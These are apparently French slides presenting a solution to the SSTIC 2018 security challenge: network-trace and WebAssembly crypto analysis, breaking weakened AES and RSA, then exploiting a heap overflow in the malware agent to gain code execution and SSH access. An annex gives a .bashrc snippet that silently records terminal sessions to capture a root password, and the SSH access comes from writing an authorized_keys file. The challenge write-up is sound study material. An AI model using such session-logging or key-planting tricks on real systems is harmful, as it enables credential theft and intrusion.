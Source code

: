 =====================
Solution du challenge
=====================

:author: Nicolas Iooss
:date: Jeudi 14 juin 2018

De la crypto (web)
~~~~~~~~~~~~~~~~~~

Ça commence bien...
===================

.. role:: latex(raw)
   :format: latex

Mail reçu le samedi 31 mars :

.. code-block:: xorg

    Bonjour,

    Nous avons récemment découvert une activité suspecte sur
    notre réseau. Heureusement pour nous, notre fine équipe
    responsable de la sécurité a rapidement mis fin à la menace
    en éteignant immédiatement la machine.
    [...]
    Malheureusement, nous avons été contraints par l'ANSSI
    d'enquêter sur cette intrusion inopinée.

* Pas d'image du système compromis
* Pas de logiciel malveillant (ou d'indicateur de compromission)
* Entreprise sous la contrainte

Trace réseau, raconte-moi une histoire !
========================================

Seul élément : trace réseau (Pcap)

Beaucoup de trafic HTTP (web).

Le requin du fil
================

:latex:`\begin{center}`

.. image:: ../solution/images/01_wireshark_http.png

:latex:`\end{center}`

Le requin du fil
================

Trafic suspect :

* ``10.241.20.18:8080`` : Code JavaScript (payload, stage1, stage2, etc.)
* ``10.141.20.18:8080`` : Code WebAssembly ``blockcipher.wasm``
* ``https://10.241.20.18:1443/password?session=...``

:latex:`\pause`

.. raw:: latex

    \begin{columns}
      \begin{column}{0.75\textwidth}
        Sujet du certificat HTTPS (autosigné) :
        \begin{itemize}
        \tightlist
        \item
          \texttt{C\ =\ RU} : « Russie »
        \item
          \texttt{ST\ =\ Moscow} : « Moscou »
        \item
          \texttt{O\ =\ APT28} : « organisation : APT28 (Fancy Bear) »
        \item
          \texttt{CN\ =\ legit-news.ru} : « nouvelles \emph{légitimes} de la
          Russie »
        \end{itemize}
      \end{column}
      \begin{column}{0.20\textwidth}
        \includegraphics[width=\textwidth]{fancy-bear.png} \\
        \small{\centering\emph{Source : www.threatconnect.com}}
      \end{column}
    \end{columns}

:latex:`\pause`

Scripts : exploit navigateur, télécharge un mot de passe, :latex:`\\` déchiffre la charge dans ``/tmp/.f4ncyn0un0urs``.

L'assembleur du web
===================

Trois fonctions utilisées dans ``blockcipher.wasm`` (analyse avec WABT:latex:`\footnote{https://github.com/WebAssembly/wabt}`) :

* ``_getFlag`` : déchiffrement Speck (NSA), première validation intermédiaire
* ``_setDecryptKey`` : clé :latex:`\texttt{PBKDF2(mot de passe, sel, $10^6$ SHA-256)}`
* ``_decryptBlock`` : pour déchiffrer la charge, mode CBC

:latex:`\pause`

* Chiffrement par blocs de 16 octets (128 bits)
* Vérification par premier bloc : ``-Fancy Nounours-``
* Dérivation de la clé en 10 sous-clés
* Déchiffrement avec :
  - fonction linéaire :latex:`$P$` (polynôme de Kuznyechik, russe)
  - fonction de substitution par octet :latex:`$S$`
  - fonction de déobfuscation :latex:`$D$`

Une substitution tirée aléatoirement ?
======================================

.. raw:: latex

    {
        \renewcommand{\arraystretch}{0.8}
        \begin{tabular}{r|cccccccccccccccc|}
            $S$ & \texttt{\small{0}} & \texttt{\small{1}} & \texttt{\small{2}} & \texttt{\small{3}} & \texttt{\small{4}} & \texttt{\small{5}} & \texttt{\small{6}} & \texttt{\small{7}} & \texttt{\small{8}} & \texttt{\small{9}} & \texttt{\small{A}} & \texttt{\small{B}} & \texttt{\small{C}} & \texttt{\small{D}} & \texttt{\small{E}} & \texttt{\small{F}} \\
            \hline
            \texttt{\small{00}} & \texttt{\small{dc}} & \texttt{\small{63}} & \texttt{\small{7a}} & \texttt{\small{21}} & \texttt{\small{58}} & \texttt{\small{1f}} & \texttt{\small{76}} & \texttt{\small{5d}} & \texttt{\small{d4}} & \texttt{\small{db}} & \texttt{\small{72}} & \texttt{\small{99}} & \texttt{\small{50}} & \texttt{\small{97}} & \texttt{\small{6e}} & \texttt{\small{d5}} \\
            \texttt{\small{10}} & \texttt{\small{cc}} & \texttt{\small{53}} & \texttt{\small{6a}} & \texttt{\small{11}} & \texttt{\small{48}} & \texttt{\small{0f}} & \texttt{\small{66}} & \texttt{\small{4d}} & \texttt{\small{c4}} & \texttt{\small{cb}} & \texttt{\small{62}} & \texttt{\small{89}} & \texttt{\small{40}} & \texttt{\small{87}} & \texttt{\small{5e}} & \texttt{\small{c5}} \\
            \texttt{\small{20}} & \texttt{\small{bc}} & \texttt{\small{43}} & \texttt{\small{5a}} & \texttt{\small{01}} & \texttt{\small{38}} & \texttt{\small{ff}} & \texttt{\small{56}} & \texttt{\small{3d}} & \texttt{\small{b4}} & \texttt{\small{bb}} & \texttt{\small{52}} & \texttt{\small{79}} & \texttt{\small{30}} & \texttt{\small{77}} & \texttt{\small{4e}} & \texttt{\small{b5}} \\
            \texttt{\small{30}} & \texttt{\small{ac}} & \texttt{\small{33}} & \texttt{\small{4a}} & \texttt{\small{f1}} & \texttt{\small{28}} & \texttt{\small{ef}} & \texttt{\small{46}} & \texttt{\small{2d}} & \texttt{\small{a4}} & \texttt{\small{ab}} & \texttt{\small{42}} & \texttt{\small{69}} & \texttt{\small{20}} & \texttt{\small{67}} & \texttt{\small{3e}} & \texttt{\small{a5}} \\
            \texttt{\small{40}} & \texttt{\small{9c}} & \texttt{\small{23}} & \texttt{\small{3a}} & \texttt{\small{e1}} & \texttt{\small{18}} & \texttt{\small{df}} & \texttt{\small{36}} & \texttt{\small{1d}} & \texttt{\small{94}} & \texttt{\small{9b}} & \texttt{\small{32}} & \texttt{\small{59}} & \texttt{\small{10}} & \texttt{\small{57}} & \texttt{\small{2e}} & \texttt{\small{95}} \\
            \texttt{\small{50}} & \texttt{\small{8c}} & \texttt{\small{13}} & \texttt{\small{2a}} & \texttt{\small{d1}} & \texttt{\small{08}} & \texttt{\small{cf}} & \texttt{\small{26}} & \texttt{\small{0d}} & \texttt{\small{84}} & \texttt{\small{8b}} & \texttt{\small{22}} & \texttt{\small{49}} & \texttt{\small{00}} & \texttt{\small{47}} & \texttt{\small{1e}} & \texttt{\small{85}} \\
            \texttt{\small{60}} & \texttt{\small{7c}} & \texttt{\small{03}} & \texttt{\small{1a}} & \texttt{\small{c1}} & \texttt{\small{f8}} & \texttt{\small{bf}} & \texttt{\small{16}} & \texttt{\small{fd}} & \texttt{\small{74}} & \texttt{\small{7b}} & \texttt{\small{12}} & \texttt{\small{39}} & \texttt{\small{f0}} & \texttt{\small{37}} & \texttt{\small{0e}} & \texttt{\small{75}} \\
            \texttt{\small{70}} & \texttt{\small{6c}} & \texttt{\small{f3}} & \texttt{\small{0a}} & \texttt{\small{b1}} & \texttt{\small{e8}} & \texttt{\small{af}} & \texttt{\small{06}} & \texttt{\small{ed}} & \texttt{\small{64}} & \texttt{\small{6b}} & \texttt{\small{02}} & \texttt{\small{29}} & \texttt{\small{e0}} & \texttt{\small{27}} & \texttt{\small{fe}} & \texttt{\small{65}} \\
            \texttt{\small{80}} & \texttt{\small{5c}} & \texttt{\small{e3}} & \texttt{\small{fa}} & \texttt{\small{a1}} & \texttt{\small{d8}} & \texttt{\small{9f}} & \texttt{\small{f6}} & \texttt{\small{dd}} & \texttt{\small{54}} & \texttt{\small{5b}} & \texttt{\small{f2}} & \texttt{\small{19}} & \texttt{\small{d0}} & \texttt{\small{17}} & \texttt{\small{ee}} & \texttt{\small{55}} \\
            \texttt{\small{90}} & \texttt{\small{4c}} & \texttt{\small{d3}} & \texttt{\small{ea}} & \texttt{\small{91}} & \texttt{\small{c8}} & \texttt{\small{8f}} & \texttt{\small{e6}} & \texttt{\small{cd}} & \texttt{\small{44}} & \texttt{\small{4b}} & \texttt{\small{e2}} & \texttt{\small{09}} & \texttt{\small{c0}} & \texttt{\small{07}} & \texttt{\small{de}} & \texttt{\small{45}} \\
            \texttt{\small{A0}} & \texttt{\small{3c}} & \texttt{\small{c3}} & \texttt{\small{da}} & \texttt{\small{81}} & \texttt{\small{b8}} & \texttt{\small{7f}} & \texttt{\small{d6}} & \texttt{\small{bd}} & \texttt{\small{34}} & \texttt{\small{3b}} & \texttt{\small{d2}} & \texttt{\small{f9}} & \texttt{\small{b0}} & \texttt{\small{f7}} & \texttt{\small{ce}} & \texttt{\small{35}} \\
            \texttt{\small{B0}} & \texttt{\small{2c}} & \texttt{\small{b3}} & \texttt{\small{ca}} & \texttt{\small{71}} & \texttt{\small{a8}} & \texttt{\small{6f}} & \texttt{\small{c6}} & \texttt{\small{ad}} & \texttt{\small{24}} & \texttt{\small{2b}} & \texttt{\small{c2}} & \texttt{\small{e9}} & \texttt{\small{a0}} & \texttt{\small{e7}} & \texttt{\small{be}} & \texttt{\small{25}} \\
            \texttt{\small{C0}} & \texttt{\small{1c}} & \texttt{\small{a3}} & \texttt{\small{ba}} & \texttt{\small{61}} & \texttt{\small{98}} & \texttt{\small{5f}} & \texttt{\small{b6}} & \texttt{\small{9d}} & \texttt{\small{14}} & \texttt{\small{1b}} & \texttt{\small{b2}} & \texttt{\small{d9}} & \texttt{\small{90}} & \texttt{\small{d7}} & \texttt{\small{ae}} & \texttt{\small{15}} \\
            \texttt{\small{D0}} & \texttt{\small{0c}} & \texttt{\small{93}} & \texttt{\small{aa}} & \texttt{\small{51}} & \texttt{\small{88}} & \texttt{\small{4f}} & \texttt{\small{a6}} & \texttt{\small{8d}} & \texttt{\small{04}} & \texttt{\small{0b}} & \texttt{\small{a2}} & \texttt{\small{c9}} & \texttt{\small{80}} & \texttt{\small{c7}} & \texttt{\small{9e}} & \texttt{\small{05}} \\
            \texttt{\small{E0}} & \texttt{\small{fc}} & \texttt{\small{83}} & \texttt{\small{9a}} & \texttt{\small{41}} & \texttt{\small{78}} & \texttt{\small{3f}} & \texttt{\small{96}} & \texttt{\small{7d}} & \texttt{\small{f4}} & \texttt{\small{fb}} & \texttt{\small{92}} & \texttt{\small{b9}} & \texttt{\small{70}} & \texttt{\small{b7}} & \texttt{\small{8e}} & \texttt{\small{f5}} \\
            \texttt{\small{F0}} & \texttt{\small{ec}} & \texttt{\small{73}} & \texttt{\small{8a}} & \texttt{\small{31}} & \texttt{\small{68}} & \texttt{\small{2f}} & \texttt{\small{86}} & \texttt{\small{6d}} & \texttt{\small{e4}} & \texttt{\small{eb}} & \texttt{\small{82}} & \texttt{\small{a9}} & \texttt{\small{60}} & \texttt{\small{a7}} & \texttt{\small{7e}} & \texttt{\small{e5}} \\
            \hline
        \end{tabular}
    }

Un peu de maths
===============

.. raw:: latex

    \begin{eqnarray*}
      \mbox{\_setDecryptKey}(K) &\rightarrow& (X_0, Y_0, X_8, Y_8, X_{16}, Y_{16}, X_{24}, Y_{24}, X_{32}, Y_{32}) \\
      \mbox{\_decryptBlock}(B) &=& S(X_0 \oplus D(S(P^{-1}( ... \oplus D(S(P^{-1}(X_{32} \oplus D(S(P^{-1}(Y_{32} \oplus B))) ))) ... ))) )
    \end{eqnarray*}

Or

.. raw:: latex

    \begin{eqnarray*}
      D \circ S = id
    \end{eqnarray*}

:latex:`\pause`

Donc

.. raw:: latex

    \begin{eqnarray*}
      \mbox{\_decryptBlock}(B) &=& S(C_K \oplus (P^{-1})^9(B))
    \end{eqnarray*}

Un ourson fantaisiste très symbolique
=====================================

.. code-block:: sh

    $ file .f4ncyn0un0urs
    .f4ncyn0un0urs: ELF 64-bit LSB executable, x86-64, ...
    not stripped

    $ strings .f4ncyn0un0urs| grep SSTIC
    SSTIC2018{f2ff2a7ed70d4ab72c52948be06fee20}

2:sup:`e` validation intermédiaire

Encore de la crypto (logiciel)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Où est l'attaquant ?
====================

::

    stage1.js :

        /tmp/.f4ncyn0un0urs -h 192.168.23.213 -p 31337

Chiffrement RSA-2048 + AES128-CBC

:latex:`\pause`

:latex:`\centering\Large{Où est l'arnaque ?}`

Chiffrement quasiment à l'état de l'art
=======================================

AES :latex:`\sout{10}` **4** tours et IV incrémental pour chaque message

:latex:`$\Rightarrow$` « Attaque intégrale »:latex:`\footnote{Square attack}`

:latex:`\pause`

Génération des clés RSA :

.. raw:: latex

    \begin{eqnarray*}
        p &=& {\color{green!40!black}k} \times M + ({\color{red!70!black}g}^{\color{green!40!black}a} \mbox{ mod } M) \\
        & & {\color{green!40!black}k}, {\color{green!40!black}a} : \mbox{aléatoires} \\
        & & M, {\color{red!70!black}g} = \mbox{constantes}
    \end{eqnarray*}

:latex:`$\Rightarrow$` Comme ROCA, factorisation en quelques secondes


Communication de l'ourson fantaisiste
=====================================

.. raw:: latex

    \begin{figure}[htbp]
        \centering
        \input{image_01_timeline_agent.tikz.tex}
    \end{figure}

So much data!
=============

Récupération de ``/home/user/confidentiel/super_secret`` (3:sup:`e` validation)

Dépôt de 27 images de chien-homard :

:latex:`\begin{center}`

.. image:: ../solution/images/01_wallpapers-pho3nix-albums-wallpaper.jpg
    :width: 50 %

:latex:`\end{center}`


Contre-attaque
~~~~~~~~~~~~~~

Protocole
=========

``/tmp/.f4ncyn0un0urs`` peut agir comme un serveur racine.

:latex:`\pause`

Le serveur racine accepte :

* une réponse à une commande ;
* une requête ``PING`` ;
* use requête ``PEER``.

:latex:`\pause`

3 possibilités, 3 vulnérabilités.

Vulnérabilité 1 : il ne peut pas me faire taire
===============================================

.. raw:: latex

    \begin{tikzpicture}[remember picture,overlay]
        \node [xshift=-0.15cm,yshift=-0.15cm] at (current page.north east) [below left,text width=6.5cm]
            {\includegraphics[width=6cm]{chat-russe_micetto.com.jpg} \small{\centering\emph{Source : www.micetto.com}}};
    \end{tikzpicture}

Un peu de politesse ne peut pas faire de mal ::

    $ ipython -i mon_agent.py
    ...
    [DEBUG] Recv(0x0->0x1245780345567817 cmd 0x201 [3] b'id\x00')

    >>> c.reply_cmd(b'coucou ! Quelle est ton adresse e-mail ?\n')

    >>> c.reply_cmd(b'pour repondre, envoie une commande vers
                      0x1245780345567817 ;)\n')

    >>> c.recv_encrypted()


Vulnérabilité 2 : un tintement qui saigne
=========================================

.. code-block:: c

    int scomm_recv(void *buffer) {
        /* ... */
        memcpy(buffer, cleartext, received_size);
        /* ... */
    }

Récupération par ``PING`` de l'adresse de la pile.

Vulnérabilité 3 : un routage peu stable
=======================================

13 sous-clients::

    realloc(): invalid next size
    Bad system call (core dumped)

Trace::

    #5 0x0000000000429012 in realloc ()
    #6 0x000000000040183b in add_to_route ()
    #7 0x00000000004015a3 in mesh_process_agent_peering ()
    #8 0x0000000000401cbe in mesh_process_message ()
    #9 0x00000000004011aa in agent_main_loop ()
    #10 0x0000000000400672 in main ()

Du crash à l'écriture
=====================

* Dépassement de 8 octets
* Allocateur glibc 2.27 (février 2018, avec *tcache*, *asserts*, etc.)
* Actions limitées

Du crash à l'écriture : ça commence par du papier A4
====================================================

:latex:`\begin{center}`

.. image:: feuilles_etalees_1.jpg

:latex:`\end{center}`

Du crash à l'écriture : papier quadrillé
========================================

:latex:`\begin{center}`

.. image:: exploit_1.png

:latex:`\end{center}`

Du crash à l'écriture : papier quadrillé
========================================

:latex:`\begin{center}`

.. image:: exploit_2.png

:latex:`\end{center}`

Du crash à l'écriture : papier quadrillé
========================================

:latex:`\begin{center}`

.. image:: exploit_3.png

:latex:`\end{center}`

Du crash à l'écriture : tant de papiers !
=========================================

:latex:`\begin{center}\vskip -2.5cm`

.. image:: feuilles_etalees_2.jpg
    :height: 120 %

:latex:`\end{center}`

Au bout de 3 jours et de 3 nuits...
===================================

Le vendredi 6 avril matin :

* 02h45 : première écriture arbitraire réussie (en environnement de test)
* 03h22 : première exécution (ROP)
* 04h15 : ``ls`` et ``cat`` réimplémentés
* 04h25 : ``cat secret/sstic2018.flag`` ::

    65r1o0q138...qqr0p5507o@punyyratr.ffgvp.bet

* 04h27 : envoi du mail de dissuasion, comme demandé

:latex:`\pause`

Quelles sont les autres victimes de l'attaquant ?

Peut-on obtenir un shell ?

Quand y'en a plus, y'en a encore !
==================================

Pas de ``execve(/bin/sh)`` car SECCOMP. Mais ``open`` et ``write``...

:latex:`\pause`

... et ``.ssh/authorized_keys`` inscriptible !

Quand y'en a plus, y'en a encore !
==================================

.. code-block:: sh

    $ ssh -i id_rsa_sstic sstic@195.154.105.12
    sstic@sd-133901:~$  uname -a
    Linux sd-133901 4.9.0-4-grsec-amd64 #1 SMP
    Debian 4.9.65-2+grsecunoff1~bpo9+1
    sstic@sd-133901:~$  ps -efH
    UID     PID  PPID  C STIME TTY          TIME CMD
    sstic 25160 25154  0 20:10 ?        00:00:00 sshd: sstic@pts/0
    sstic 25161 25160  0 20:10 pts/0    00:00:00   -bash
    sstic 25180 25161  0 20:11 pts/0    00:00:00     ps -efHZ
    sstic 29810     1  0 Mar29 ?        00:00:01 SCREEN
    sstic 29811 29810  0 Mar29 pts/3    00:00:00   /bin/bash
    sstic 25153 29811  1 20:09 pts/3    00:00:01     /home/sstic/agent -c SSTIC...
    sstic 29027     1  0 Mar29 ?        00:00:00 /lib/systemd/systemd --user
    sstic 29028 29027  0 Mar29 ?        00:00:00   (sd-pam)

Conclusion
~~~~~~~~~~

Conclusion
==========

Bon challenge :

* Pleeeeeeeein de crypto
* Exploitation intéressante ``:)``
* Découverte de WebAssembly

Questions ouvertes :

* Quel est le mot de passe ``root`` ?
* Pourquoi le serveur racine n'est pas exécuté en ``nobody`` ?

Questions
=========

:latex:`\centering\Huge{?}`

Annexes
=======

Annexe : comment obtenir le mot de passe root ?
===============================================

.. code-block:: sh

    $ cat >> .bashrc

    if [ -z "${S:-}" ] && [ -t 0 ] ; then
        export S=true
        stty raw && stty -echo
        tee -a /tmp/.session | script -qe /dev/null
        exit $?
    fi
